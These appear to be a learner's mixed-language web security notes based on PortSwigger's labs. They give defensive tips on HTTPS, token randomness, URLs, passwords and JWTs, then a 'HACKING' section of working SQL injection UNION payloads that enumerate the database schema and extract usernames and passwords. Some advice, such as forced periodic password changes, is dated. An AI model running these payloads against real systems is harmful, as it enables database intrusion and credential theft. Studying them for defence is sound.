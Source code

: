 
PREDOBROOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO:
https://portswigger.net/web-security

https://www.youtube.com/watch?v=2PPSXonhIck


Ekstra knjiga za identity management:  
Keycloak - Identity and Access Management for Modern Applications: Harness the power of Keycloak, OpenID Connect, and OAuth 2.0 protocols to secure applications

## HTTPS
Always use HTTPS protocol.  
This way you avoid lots of troubles with man-in-the-middle attack.  


## Predictability
Bilo šta što je predvidivo: username, password, session_id, tokeni ->
je INSECURE !!!!!!!!

Thus -> SecureRandom()


## URLs

Don't send *sensitive data* in URLs:
- username/password
- security token

Why?
- they can be logged in user's history, server logs, proxies etc.


## Passwords

Reset passworda je MUST HAVE:
- ako user zaboravi pwd
- periodično NATJERAT usera da promijeni password
- ako je neko skonto password, za 7 dana neće biti validan -> stonks


Slanje passworda na mail -> NO
Predvidivi generisani passwordi -> NO


## Usernames
Nejedinstveni username -> NO

------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
## JWTs are bullshit (for sessions)

- Logout? -> NO
- Change roles -> NO (fuck you, this is STILL a valid token.. :) )


------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
HACKING stuff
------------------------------------------------------------------------------------------------------------
# SQL injection

## UNION SELECT napad

### Skontaš broj kolona
```sql
' ORDER+BY+3--
```
ili
```sql
'+UNION+SELECT+NULL,NULL--
```
(kod Oracle MORA 'SELECT .. FROM DUAL')
dok ne potrefiš broj kolona...

### Skontaš koja kolona je string (obično)

```sql
' UNION SELECT NULL,NULL,'a',NULL--
```

dok ne potrefiš koja kolona paše.. :)

### UNION SELECT
```sql
' UNION SELECT username, password FROM users--
```

### Browsing the db schema

'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
--> users_lqlezz npr

'+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_lqlezz'--
--> username_jyfedi,password_fxqtrq

' UNION SELECT username_jyfedi,password_fxqtrq FROM users_lqlezz--

ORACLE:
all_tables i all_tab_columns


